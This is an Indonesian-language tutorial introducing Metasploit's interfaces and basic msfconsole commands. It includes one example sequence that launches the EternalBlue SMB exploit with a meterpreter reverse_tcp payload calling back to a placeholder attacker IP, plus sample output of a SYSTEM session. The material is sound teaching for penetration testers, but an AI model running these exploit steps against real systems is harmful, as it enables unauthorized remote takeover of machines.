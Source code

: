 # Antarmuka Metasploit Framework

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

Jenis-jenis Antarmuka Metasploit:

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## A. MSFconsole – Antarmuka Utama Metasploit

### 1. Menjalankan MSFconsole:

   ```
   msfconsole
   ```

   Saat dijalankan, akan muncul banner:

   ```
          =[ metasploit v6.4.56-dev                          ]
   + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
   + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
   + -- --=[ 9 evasion                                       ]

   Metasploit Documentation: https://docs.metasploit.com/
   ```

### 2. Struktur Dasar Perintah di MSFconsole

   | Perintah | Fungsi |
   |:--:|:--:|
   | `search <NAMA>` | Mencari `exploit`, `payload`, `dll`. |
   | `use <MODUL>` | Memilih modul yang akan digunakan. |
   | `info` | Menampilkan detail tentang modul yang sedang digunakan. |
   | `show options` | Melihat konfigurasi parameter modul. |
   | `set <PARAMETER> <NILAI>` | Mengatur nilai parameter modul. |
   | `exploit` atau `run` | Menjalankan exploit atau modul. |

### 3. Contoh Penggunaan MSFconsole:

   ```
   search windows/smb
   use exploit/windows/smb/ms17_010_eternalblue
   show options
   set RHOSTS <IP_TARGET>
   set LHOST <IP_ATTACKER>
   set PAYLOAD windows/meterpreter/reverse_tcp
   exploit
   ```

## B. Fitur Tambahan di MSFconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis. |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya. |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background. |
| Session Interaction | Gunakan `sessions -i <ID>` untuk membuka kembali sesi eksploitasi. |

## C. Contoh Output dari MSFconsole:

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## D. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.

